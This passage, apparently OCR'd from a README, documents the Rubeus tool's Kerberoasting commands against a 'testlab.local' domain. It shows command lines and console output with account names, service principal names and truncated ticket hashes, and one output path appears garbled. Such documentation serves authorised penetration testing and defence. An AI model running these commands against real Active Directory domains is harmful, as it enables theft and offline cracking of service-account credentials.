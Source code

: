  v1.3.4


 [*] Action: Kerberoasting


 [*] SamAccountName : harmj0y
 [*] DistinguishedName : CN=harmj0y,CN=Users,DC=testlab,DC=local
 [*] ServicePrincipalName : asdf/asdfasdf
 [*] Hash : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$AE5F019D4CDED6CD74830CC...(snip)...


 [*] SamAccountName : sqlservice
 [*] DistinguishedName : CN=SQL,CN=Users,DC=testlab,DC=local
 [*] ServicePrincipalName : MSSQLSvc/SQL.testlab.local
 [*] Hash : $krb5tgs$23$*$testlab.local$MSSQLSvc/SQL.testlab.local*$E2B3869290...(snip)...

 ...(snip)...


Kerberoasting all users in a specific OU, saving the hashes to an output file:

 C:\Rubeus>Rubeus.exe kerberoast /ou:OU=TestingOU,DC=testlab,DC=local /outfile\Temp\hashes.txt

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.4


 [*] Action: Kerberoasting

 [*] Target OU : OU=TestingOU,DC=testlab,DC=local

 [*] SamAccountName : testuser2
 [*] DistinguishedName : CN=testuser2,OU=TestingOU,DC=testlab,DC=local
 [*] ServicePrincipalName : service/host
 [*] Hash written to C:\Temp\hashes.txt

 [*] Roasted hashes written to : C:\Temp\hashes.txt


Perform Kerberoasting using the `tgtdeleg` trick to get a usable TGT, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 3 service tickets:

 C:\Rubeus>Rubeus.exe kerberoast /tgtdeleg /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:3

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/
